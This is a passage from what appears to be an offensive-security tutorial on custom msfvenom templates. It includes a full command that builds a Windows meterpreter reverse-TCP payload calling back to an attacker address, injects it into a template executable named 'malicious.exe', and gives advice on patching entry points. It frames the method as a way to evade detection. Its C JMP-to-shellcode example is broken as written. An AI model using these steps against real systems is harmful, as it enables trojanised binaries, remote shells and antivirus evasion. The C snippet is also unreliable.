 ```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -x template.exe -f exe -o malicious.exe
```

In this command:
- `-x template.exe` specifies your custom template.
- `-f exe` tells `msfvenom` to output the file as an executable.
- `-o malicious.exe` is the name of the final executable with the injected shellcode.

### 7. **Advanced: Modify Entry Points or Add Jump Instructions**

For more advanced use cases, you might want to modify the entry point of your executable to jump to the shellcode or insert a JMP instruction at a specific point in the binary. This requires knowledge of assembly and binary patching.

#### Example: Adding a JMP Instruction
You could modify your template to include a JMP instruction to the buffer where the shellcode will be injected:

```c
#include <stdio.h>

int main() {
    unsigned char shellcode[256];  // Buffer to hold shellcode
    
    // Insert JMP instruction here to jump to shellcode (this is for illustration purposes)
    __asm__("jmp shellcode");
    
    // Simple message to indicate the template is running
    printf("This is a template. Shellcode will be injected here.\n");
    
    return 0;
}
```

### 8. **Final Testing**

After creating the final executable with the shellcode injected, test it in a safe environment (e.g., a VM) to ensure that it executes the shellcode as expected and that the template's original functionality is preserved if needed.

### **Summary**
Creating your own binary template involves:
- Crafting a simple executable with a placeholder for shellcode.
- Compiling and testing the executable.
- Using `msfvenom` to inject shellcode into the template.
- Optionally, modifying entry points or adding jump instructions for more control.

This approach gives you full control over how the shellcode is injected and executed, enabling the creation of highly customized payloads.

Creating customized **msfvenom** binary templates using techniques like binary patching, JMP instructions, and more can be a powerful way to evade detection and create unique payloads for penetration testing. Below is an overview of how you can approach this on Linux, Windows, and macOS.
